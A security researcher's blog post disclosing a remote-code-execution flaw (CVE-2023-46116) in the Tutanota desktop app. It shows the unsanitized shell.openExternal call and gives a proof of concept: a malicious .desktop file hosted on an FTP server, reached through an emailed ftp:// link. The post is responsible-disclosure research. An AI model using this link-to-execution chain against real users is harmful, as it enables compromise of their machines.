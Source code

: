 +++
title = "The Plight of Unsanitized Function Calls"
date = "2023-10-22T21:28:41+05:30"
author = "Prajyot Chemburkar"
cover = "https://imgs.xkcd.com/comics/exploits_of_a_mom.png"
tags = ["Electron", "CVE", "RCE"]
keywords = ["electron", "code execution"]
description = "Been researching electron app security recently, decided to look at Tutanota. Got an RCE"
showFullContent = false
readingTime = true
hideComments = true
draft = false
+++

# Introduction
*Tutanota is the world's most secure email service, easy to use and private by design. You get fully encrypted calendars and contacts with all our personal and business email accounts.* ~[The Tutanota Website](https://tutanota.com/)

# Debugging Setup
Tutanota fortunately is open source. So all you have to do is download the application source, spin up vscode or any IDE of your liking and read away. Or you can use [grep.app](https://grep.app) to look at its code, which is what I did in this case.

I particularly like using Ubuntu with the XFCE desktop environment, as it makes it simpler to demonstrate exploits, as we will see later.

# Methodology
My methodology for reviewing electron applications, at least when it comes to *electron specific* vulnerabilities, is quite simple: Use a bottom up approach. Grep for sinks and then trace the source.

# Stumbling Upon a Sink
One of the common functions that developers use in electron apps is `openExternal` from the `shell` module. This function opens URLs' using their default or native applications. As an example, if you pass a URL with the `https:` scheme, `shell.openExternal` will spawn your default browser to open it.

The problem with this is, if developers do not sanitize this function call, and pass it user-controlled URLs', then an attacker may make use of schemes like `file:`, `ftp:`, `smb:`, etc. to gain code execution on a victim's computer. There's a ton of URL schemes availble that can be used to abuse this "feature", more on that [here](https://positive.security/blog/url-open-rce).

I found this unsanitized call to `shell.openExternal` in Tutanota's source:

```js
private onNewWindow(details: HandlerDetails): { action: "deny" } {
    const parsedUrl = parseUrlOrNull(details.url)

    if (parsedUrl == null) {
        log.warn(TAG, "Could not parse url for new-window, will not open")
    } else if (parsedUrl.protocol === "file:") {
        // this also works for raw file paths without protocol
        log.warn(TAG, "prevented file url from being opened by shell")
    } else {
        // we never open any new windows directly from the renderer
        // except for links in mails etc. so open them in the browser
        this.electron.shell.openExternal(parsedUrl.toString()).catch((e) => {
            log.warn("failed to open external url", details.url, e)
            this.electron.dialog.showMessageBox({
                title: lang.get("showURL_alt"),
                buttons: [lang.get("ok_action")],
                defaultId: 0,
                message: lang.get("couldNotOpenLink_msg", { "{link}": details.url }),
                type: "error",
            })
        })
    }

    return {
        action: "deny",
    }
}
```

Looks like the devs are sort of aware of what `shell.openExternal` can do, hence the blocked `file:` scheme. But there are way too many other schemes that we can use to abuse this.

# Using FTP to gain RCE
Execute and authenticate to the Tutanota desktop version `3.118.8` AppImage on a Ubuntu Desktop with the XFCE environment.
![tuta-install](images/tuta-install.png)

On another machine, host an FTP server with anonymous access enabled. Create and place a `pwn.desktop` file in the FTP root, with the following content:
```sh
[Desktop Entry]
Exec=xcalc
Type=Application
```

Send an email to the email account logged in on tutanota containing a hyperlink pointing to the `pwn.desktop` file on the FTP server. Replace the corresponding values in the hyperlink: `ftp://username:password@ip-address/pwn.desktop`.
![tuta-send-mail](images/tuta-send-mail.png)

On the tutanota desktop application, click on the hyperlink in the email received. Observe that the calculator application opens. You may need to confirm execution of the application in some cases.
![tuta-rce](images/tuta-rce.png)

# The Fix Deployed
Tutanota decided to fix the issue by adding a warning/confirmation dialouge before opening any links that are not http/https. This seemed like a good fix to me, as:
- It is confirmed that the user actually wants to open said link.
- It does not affect the use of legitimate deeplinks.

# Timeline
- September 26th 2023, 7:20 AM UTC, Reported to Tutanota
- September 26th 2023, 9:33 AM UTC, Fixed by Tutanota
- October 20th 2023, CVE-2023-46116 assigned
- NA, Report disclosed